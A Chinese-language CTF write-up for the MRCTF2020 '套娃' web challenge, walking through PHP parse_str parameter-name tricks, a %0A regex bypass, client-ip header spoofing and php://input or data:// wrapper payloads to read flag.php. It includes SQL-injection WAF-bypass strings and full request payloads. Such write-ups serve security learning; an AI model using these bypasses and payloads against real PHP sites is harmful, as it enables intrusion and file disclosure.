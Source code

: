 # [MRCTF2020]套娃 GET POST 读取字符串特性 伪造ip 伪协议伪造 file_get_contents()

## 

## 知识点

 [利用PHP的字符串解析特性Bypass - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/213359.html) 

我们通过GETPOST 传递参数是将字符串作为数组传递

那么传递了参数 做了什么操作

这里是通过 parse_str 来处理的



<img src="https://i-blog.csdnimg.cn/blog_migrate/815e928b94cbe53b1d5ad4d23d3ca5e2.png" alt="" style="max-height:294px; box-sizing:content-box;" />


这里能发现 就是进行了两个操作

```undefined
删除空白符
 
将有一些特殊符号转变为下划线
```

运用这里我们就可以绕过许多的waf 或者拦截

```cobol
alert http any any -> $HOME_NET any (\
    msg: "Block SQLi"; flow:established,to_server;\
    content: "POST"; http_method;\
    pcre: "/news_id=[^0-9]+/Pi";\
    sid:1234567;\
)
```

例如上面存在这个规则 过滤了 news_id

我们要如何实现绕过呢， 下面这些方法都可以实现

```cobol
news[id=1'+and+1=1#

news%5bid=1'+and+1=1#    这里的 %5b就是 [ 
 
news_id%00=1'+and+1=1#   通过00截断来实现绕过
```

```cobol
{chr}foo_bar -> 20 ( )
{chr}foo_bar -> 26 (&)
{chr}foo_bar -> 2b (+)
foo{chr}bar -> 20 ( )
foo{chr}bar -> 2b (+)
foo{chr}bar -> 2e (.)
foo{chr}bar -> 5b ([)
foo{chr}bar -> 5f (_)
foo_bar{chr} -> 00 ()
foo_bar{chr} -> 26 (&)
foo_bar{chr} -> 3d (=)
```

这里面就显示了 我们 在每个位置可以 选择绕过的 字符

## 做题

首先可以通过查看源代码获得提示

```cobol
<!--
//1st
$query = $_SERVER['QUERY_STRING'];
 
 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
!-->
```

然后我们需要绕过 第一个判断个数 又要过第二个正则 正则使用 %0A 即可

因为不会匹配第二行  但是 get又会删除第二行

第一个我们如何绕过呢 使用上面的表来桡过

所以payload就是

```cobol
?b.u.p.t=23333%0A
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d13a1e5c7e86430adb09057d34361a54.png" alt="" style="max-height:95px; box-sizing:content-box;" />


出现了新的提示

我们去访问一下这个php

看看源代码 晕了 才知道这个 fuckjs 代码 看别人wp

放到控制台运行



<img src="https://i-blog.csdnimg.cn/blog_migrate/aad61684c3a9492d7403b83f78944090.png" alt="" style="max-height:159px; box-sizing:content-box;" />


我们就post 一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/63c147650b8517e4a2ba6de696ef04e2.png" alt="" style="max-height:188px; box-sizing:content-box;" />


```cobol
Flag is here~But how to get it? <?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';
 
if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
}
 
 
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
这里是通过循环 可能是改变东西 不着急 到时候看看
 
 
 
echo 'Local access only!'."<br/>";
$ip = getIp();
这里需要伪造本地ip访问
通过 client-ip:127.0.0.1
 
 
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
这里需要本地ip 并且通过get2333打开文件 里面内容为 todat is a happy day
 
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
这里显然是需要通过 change来获得 flag.php 高亮
?>  
 
代码审计一下
```

这里主要就是伪造ip  client-ip:127.0.0.1

其次就是通过 fie_get_content读取

这里又两个方式

### 读取方法一

```cobol
?2333=php://input
 
 
POST内容中
 
todat is a happy day
```

### 方法二

```cobol
通过 data伪协议
 
?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=
```

这两个方法都可以

选择就是如何绕过 change 输出flag  就要开始逆向了

```php
 
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
 
 
首先通过 base64解密 然后对内容进行 +
 
我们逆向就先对内容进行 - 然后 base64加密即可
 
<?php
 
function change($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return base64_encode($re); 
}
echo change("flag.php");
```

获得了 flag.php的加密

```cobol
ZmpdYSZmXGI=
```

我们现在传递参数即可

```cobol
?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=&file=ZmpdYSZmXGI=
 
请求头
 
client-ip:127.0.0.1
```

或者



```cobol
?2333=php://input&file=ZmpdYSZmXGI=
 
POST
 
todat is a happy day
 
请求头
 
client-ip:127.0.0.1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/af1663453158b7563abcb32050a27348.png" alt="" style="max-height:301px; box-sizing:content-box;" />


这里就得出来 flag

确实和题目中的一样 套中套啊